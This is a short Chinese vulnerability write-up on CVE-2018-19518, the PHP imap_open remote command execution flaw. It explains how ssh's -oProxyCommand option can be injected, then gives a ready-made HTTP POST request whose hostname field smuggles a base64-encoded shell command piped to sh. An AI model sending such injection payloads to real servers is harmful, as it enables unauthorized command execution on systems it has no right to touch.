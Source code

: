 # （CVE-2018-19518）PHP imap 远程命令执行漏洞

## 一、漏洞简介

php imap扩展用于在PHP中执行邮件收发操作。其`imap_open`函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置`-oProxyCommand=`来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

## 二、漏洞影响

## 三、复现过程

```bash
POST / HTTP/1.1
Host: www.baidu.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222

```

![1.png](images/2020_06_13/6ebf190a2208441aad853e8f1402ba66.png)

